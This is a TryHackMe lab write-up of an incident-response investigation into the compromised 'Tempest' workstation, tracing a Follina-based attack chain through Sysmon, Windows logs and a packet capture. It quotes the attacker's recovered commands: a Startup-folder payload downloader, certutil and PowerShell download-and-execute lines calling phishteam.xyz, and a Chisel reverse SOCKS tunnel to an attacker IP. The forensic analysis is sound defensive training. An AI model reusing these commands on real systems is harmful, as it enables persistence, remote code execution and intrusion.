# Tempest - Full Attack Chain Investigation

---

## Environment

- **Platform:** TryHackMe - SOC Level 1 Capstone Challenges
- **Machine:** Windows VM (TEMPEST) - provided with pre-collected artifacts
- **Artifacts:** `sysmon.evtx`, `windows.evtx`, `capture.pcapng`
- **Analyst Role:** Incident Responder escalated from a SOC critical alert


## Lab Objective

Investigate a fully compromised Windows workstation by analysing endpoint and network artifacts. The investigation covers the complete attack chain from initial access through to post-exploitation persistence, correlating findings across Sysmon logs, Windows Security event logs, and a packet capture.


## Tools and Technologies

| Tool | Purpose |
|---|---|
| EvtxEcmd (EZTools) | Parse `.evtx` logs to CSV |
| Timeline Explorer (EZTools) | Filter and navigate parsed event logs |
| SysmonView | Visualise Sysmon process trees |
| Event Viewer | Export Sysmon logs to XML |
| Brim (Zeek) | Structured analysis of packet capture |
| Wireshark | Raw packet inspection |
| CyberChef | Base64 decoding of C2 traffic |
| VirusTotal | Hash-based binary identification |
| PowerShell | Artifact hash verification and base64 decoding |


## Alert Overview

A SOC analyst escalated a critical severity alert from the workstation `TEMPEST`. The compiled alert intelligence prior to investigation:

- The intrusion started from a malicious `.doc` file
- The document was downloaded via `chrome.exe`
- The document executed a chain of commands to achieve code execution

**Artifact integrity verification:**

| Artifact | SHA256 Hash |
|---|---|
| capture.pcapng | `CB3A1E6ACFB246F256FBFEFDB6F494941AA30A5A7C3F5258C3E63CFA27A23DC6` |
| sysmon.evtx | *(verified via Get-FileHash)* |
| windows.evtx | *(verified via Get-FileHash)* |

Artifacts were parsed using EvtxEcmd and loaded into Timeline Explorer as two separate tabs (`sysmon.csv` and `windows.csv`) before investigation began.

```powershell
C:\Tools\EvtxECmd\EvtxECmd.exe -f 'C:\Users\user\Desktop\Incident Files\sysmon.evtx' --csv 'C:\Users\user\Desktop\Incident Files' --csvf sysmon.csv
C:\Tools\EvtxECmd\EvtxECmd.exe -f 'C:\Users\user\Desktop\Incident Files\windows.evtx' --csv 'C:\Users\user\Desktop\Incident Files' --csvf windows.csv
```


## Phase 1 - Initial Access: Malicious Document

The alert anchor is `WinWord.exe`. Filtering `sysmon.csv` in Timeline Explorer for Event ID `1` and searching for `WinWord` in the Executable Info column surfaces a single process creation event.



```
Event ID:     1 (Process Creation)
Time:         2022-06-20 17:13:12
User:         TEMPEST\benimaru
Image:        C:\Program Files (x86)\Microsoft Office\Root\Office16\WINWORD.EXE
CommandLine:  "WINWORD.EXE" /n "C:\Users\benimaru\Downloads\free_magicules.doc"
ProcessID:    496
ParentPID:    6596
```

The malicious document is `free_magicules.doc`, opened by user `benimaru` on machine `TEMPEST`. With PID 496 confirmed, the next step is to follow the network activity generated by this process. SysmonView was loaded with the Sysmon XML export to visualise the full event tree for `WINWORD.EXE`.



The tree shows 4 DNS queries total. Three resolve to legitimate Microsoft infrastructure. Scrolling through the tree surfaces the anomalous one.



```
Event ID:      22 (DNS Query)
Time:          2022-06-20 16:59:29
Image:         WINWORD.EXE
QueryName:     phishteam.xyz
QueryStatus:   Success (Code:0)

Event ID:      3 (Network Connection)
Time:          2022-06-20 16:59:29
SourceIP:      192.168.254.107:51830
DestinationIP: 167.71.199.191:80
```

`phishteam.xyz` resolving to `167.71.199.191` is the malicious domain. This is delivery infrastructure, not C2, the distinction becomes relevant later. To find the payload executed by the document, Timeline Explorer was searched for `Enc` with Event ID `1` active, targeting the encoded PowerShell invocation pattern.



```
Event ID:     1 (Process Creation)
Time:         2022-06-20 17:13:35
User:         TEMPEST\benimaru
ProcessID:    4868
ParentPID:    496
```

This is **CVE-2022-30190 (Follina)**. The document abuses the `ms-msdt:` URI handler to invoke `msdt.exe` with an embedded PowerShell expression that decodes and executes a base64 payload, bypassing macro-based defenses entirely. Decoding the base64 string in Cyberchef reveals the stage 2 command:



```powershell
$app=[Environment]::GetFolderPath('ApplicationData');
cd "$app\Microsoft\Windows\Start Menu\Programs\Startup";
iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip;
Expand-Archive .\update.zip -DestinationPath .;
rm update.zip;
```

The payload navigates to the user Startup folder, downloads `update.zip` from `phishteam.xyz`, extracts it in place, and removes the zip to reduce artifact footprint.


## Phase 2 - Stage 2 Execution and Persistence

The decoded payload targets the Startup folder for persistence. Filtering Timeline Explorer for Event ID `11` (File Create) and searching for `Startup` confirms what was extracted from `update.zip`.



```
Event ID:       11 (File Create)
Time:           2022-06-20 17:13:37
ProcessID:      2800 (sdiagnhost.exe - child of msdt.exe)
TargetFilename: C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\
                Start Menu\Programs\Startup\update.lnk
```

`update.lnk` is a Windows shortcut file planted in the Startup folder. Every time `benimaru` logs in, `explorer.exe` will execute whatever this shortcut points to. To find what it executes, filtering Event ID `1` and searching for `Explorer.exe` reveals the processes spawned at the next login.



```
Event ID:      1 (Process Creation)
Time:          2022-06-20 17:15:10
ParentProcess: C:\Windows\explorer.exe
ProcessID:     9052

CommandLine:
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni
certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe'
C:\Users\Public\Downloads\first.exe;
C:\Users\Public\Downloads\first.exe
```

`update.lnk` executes a hidden PowerShell command using `certutil` as a LoLBin to download `first.exe` from `phishteam.xyz` and immediately execute it. Filtering for `first.exe` with Event ID `1` confirms it launches and begins spawning child processes, and surfaces the SHA256 hash in the payload data columns.



```
File:    first.exe
Path:    C:\Users\Public\Downloads\first.exe
SHA256:  CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8
```

SysmonView loaded with `first.exe` as the search target shows the full C2 beaconing activity generated by this binary.



`first.exe` is the main C2 implant. It generates 27 DNS queries and 27 network connections, all directed at `resolvecyber.xyz` on port 80. This is separate infrastructure from `phishteam.xyz` - the delivery server and the C2 server are distinct, a common attacker operational security practice.


## Phase 3 - Malicious Document Traffic

With two malicious domains identified from Sysmon, the packet capture was loaded into Brim for network-side corroboration. The delivery infrastructure was queried first.

```
_path=="http" "phishteam.xyz"
```



The delivery server hosted all staged payloads under `/02dcf07/`. The full payload list is visible in the HTTP log: `first.exe`, `ch.exe`, `spf.exe`, `final.exe`, `update.zip`. The malicious document initially reached `http://phishteam.xyz/02dcf07/index.html`.

The C2 traffic was then isolated using the domain confirmed by Sysmon.

```
_path=="http" "resolvecyber.xyz"
```



```
Host:       resolvecyber.xyz
Port:       80
Method:     GET
URI:        /9ab62b5 (clean poll) / /9ab62b5?q=<base64> (command result)
User-Agent: Nim httpclient/1.6.6
```

The C2 beacon loop operates as follows: `first.exe` polls `/9ab62b5` via GET to retrieve the next command. After execution, it sends the result back via the `q` parameter as a base64-encoded string. The `Nim httpclient/1.6.6` user agent is a high-confidence indicator, it is not a browser or a legitimate application and directly identifies the binary as compiled using the Nim programming language.


## Phase 4 - Internal Reconnaissance

To reconstruct the attacker's activity inside the machine, the C2 traffic was filtered chronologically and each base64-encoded `q` parameter was decoded in CyberChef.

```
_path=="http" "resolvecyber.xyz" id.resp_p==80 | cut ts, host, id.resp_p, uri | sort ts
```





Decoding the sequence of `q` parameters revealed the full attacker command history executed via the C2 channel:

```
whoami              -> tempest\benimaru
pwd                 -> C:\Windows\system32
dir C:\Users        -> benimaru, Public, rimuru
dir C:\users\benimaru\Desktop -> automation.ps1, Microsoft Edge.lnk
cat C:\Users\Benimaru\Desktop\automation.ps1 ->
    $user = "TEMPEST\benimaru"
    $pass = "infernotempest"
net users           -> Administrator, benimaru, DefaultAccount, Guest, rimuru, WDAGUtilityAccount
net user benimaru   -> Local Group Memberships: *Remote Management Users
net localgroup administrators -> Administrator, rimuru
netstat -ano -p tcp -> TCP 0.0.0.0:5985 LISTENING (WinRM)
```

The attacker located `automation.ps1` on the desktop, which contained hardcoded credentials: `benimaru` / `infernotempest`. The `netstat` output confirmed port `5985` (WinRM) listening on all interfaces. With `benimaru` confirmed as a member of the Remote Management Users group and valid credentials in hand, the attacker had a complete package for WinRM authentication.

To enable network access to the internal WinRM port from outside, `ch.exe` was downloaded and executed via the C2 channel.

```
powershell iwr http://phishteam.xyz/02dcf07/ch.exe -outfile C:\Users\benimaru\Downloads\ch.exe
```

Filtering Timeline Explorer for `ch.exe` with Event ID `1` surfaces the execution event.



```
Event ID:      1 (Process Creation)
Time:          2022-06-20 17:18:48
ParentProcess: C:\Users\Public\Downloads\first.exe
Image:         C:\Users\benimaru\Downloads\ch.exe

CommandLine:
"C:\Users\benimaru\Downloads\ch.exe" client 167.71.199.191:8080 R:socks

SHA256: 8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451
```

The hash was submitted to VirusTotal, identifying the binary as **Chisel**, an open source TCP/UDP tunneling tool written in Go. The `R:socks` flag establishes a reverse SOCKS5 proxy back to the attacker's server at `167.71.199.191:8080`, tunneling internal network access through the victim machine.




## Phase 5 - Lateral Movement via WinRM

With the Chisel tunnel active, the attacker connected to port `5985` on TEMPEST using the harvested credentials. Searching Timeline Explorer for `wsmprovhost.exe` confirms the WinRM session was established.



`wsmprovhost.exe` is the Windows Remote Management provider host - the process Windows creates to service an incoming WinRM session. Its appearance in the logs confirms successful authentication via WinRM. All subsequent attacker commands execute as children of this process, running in the context of `TEMPEST\benimaru`.

```
wsmprovhost.exe
  -> powershell.exe whoami /priv
  -> powershell.exe iwr http://phishteam.xyz/02dcf07/spf.exe -outfile spf.exe
  -> powershell.exe iwr http://phishteam.xyz/02dcf07/final.exe -outfile C:\ProgramData\final.exe
  -> spf.exe -c C:\ProgramData\final.exe
```

The reason `ch.exe` does not appear as the direct parent of `wsmprovhost.exe` is that Chisel provides only the network tunnel. The WinRM authentication and session creation are handled by the Windows service stack, which assigns `wsmprovhost.exe` as the session host independently of the tunneling layer.

## Phase 6 - Privilege Escalation

Through the WinRM session, `whoami /priv` was executed. The output, recovered by decoding the corresponding `q` parameter in the C2 PCAP traffic, confirmed `SeImpersonatePrivilege` was enabled for `benimaru`. This privilege, commonly present on service accounts, allows a process to impersonate a client after authentication - the exact mechanism exploited by PrintSpoofer.

`spf.exe` was downloaded to `C:\Users\benimaru\Downloads\spf.exe` and its SHA256 hash was identified from the Timeline Explorer Event ID `1` entry.

